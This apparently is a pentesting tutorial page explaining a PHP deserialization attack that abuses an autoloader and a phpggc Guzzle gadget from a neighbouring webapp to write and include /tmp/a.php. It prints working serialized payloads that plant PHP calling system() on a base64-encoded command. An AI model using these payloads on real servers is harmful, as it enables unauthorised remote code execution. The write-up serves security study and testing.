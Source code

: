 ```yaml
---
layout: page
title:
date: 2025-01-05 10:14:00-0400
description:
tags:
categories: [hacking pentesting-web deserialization]
discus_comments: true
related_posts: false
toc:
  sidebar: left
---
```


# PHP - Deserialization + Autoload Classes

First, you should check what are [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl_autoload_register + LFI/Gadget

We are in a situation where we found a **PHP deserialization in a webapp** with **no** library vulnerable to gadgets inside **`phpggc`**. However, in the same container there was a **different composer webapp with vulnerable libraries**. Therefore, the goal was to **load the composer loader of the other webapp** and abuse it to **load a gadget that will exploit that library with a gadget** from the webapp vulnerable to deserialization.

Steps:

- You have found a **deserialization** and there **isn’t any gadget** in the current app code
- You can abuse a **`spl_autoload_register`** function like the following to **load any local file with `.php` extension**
  - For that you use a deserialization where the name of the class is going to be inside **`$name`**. You **cannot use "/" or "."** in a class name in a serialized object, but the **code** is **replacing** the **underscores** ("\_") **for slashes** ("/"). So a class name such as `tmp_passwd` will be transformed into `/tmp/passwd.php` and the code will try to load it.\
    A **gadget example** will be: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

   if (preg_match('/Controller$/', $name)) {
       $name = "controllers/${name}";
   } elseif (preg_match('/Model$/', $name)) {
       $name = "models/${name}";
   } elseif (preg_match('/_/', $name)) {
       $name = preg_replace('/_/', '/', $name);
   }

   $filename = "/${name}.php";

   if (file_exists($filename)) {
       require $filename;
   }
   elseif (file_exists(__DIR__ . $filename)) {
       require __DIR__ . $filename;
   }
});
```

> [!TIP]
> If you have a **file upload** and can upload a file with **`.php` extension** you could **abuse this functionality directly** and get already RCE.

In my case, I didn’t have anything like that, but there was inside the **same container** another composer web page with a **library vulnerable to a `phpggc` gadget**.

- To load this other library, first you need to **load the composer loader of that other web app** (because the one of the current application won’t access the libraries of the other one.) **Knowing the path of the application**, you can achieve this very easily with: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my case, the composer loader was in `/www/frontend/vendor/autoload.php`)
- Now, you can **load** the others **app composer loader**, so it’s time to **`generate the phpgcc`** **payload** to use. In my case, I used **`Guzzle/FW1`**, which allowed me to **write any file inside the filesystem**.
  - NOTE: The **generated gadget was not working**, in order for it to work I **modified** that payload **`chain.php`** of phpggc and set **all the attribute**s of the classes **from private to public**. If not, after deserializing the string, the attributes of the created objects didn’t have any values.
- Now we have the way to **load the others app composer loader** and have a **phpggc payload that works**, but we need to **do this in the SAME REQUEST for the loader to be loaded when the gadget is used**. For that, I sent a serialized array with both objects like:
  - You can see **first the loader being loaded and then the payload**

```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```

- Now, we can **create and write a file**, however, the user **couldn’t write in any folder inside the web server**. So, as you can see in the payload, PHP calling **`system`** with some **base64** is created in **`/tmp/a.php`**. Then, we can **reuse the first type of payload** that we used to as LFI to load the composer loader of the other webapp t**o load the generated `/tmp/a.php`** file. Just add it to the deserialization gadget:

```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```

**Summary of the payload**

- **Load the composer autoload** of a different webapp in the same container
- **Load a phpggc gadget** to abuse a library from the other webapp (the initial webapp vulnerable to deserialization didn’t have any gadget on its libraries)
- The gadget will **create a file with a PHP payload** on it in /tmp/a.php with malicious commands (the webapp user cannot write in any folder of any webapp)
- The final part of our payload will use **load the generated php file** that will execute commands

I needed to **call this deserialization twice**. In my testing, the first time the `/tmp/a.php` file was created but not loaded, and the second time it was correctly loaded.
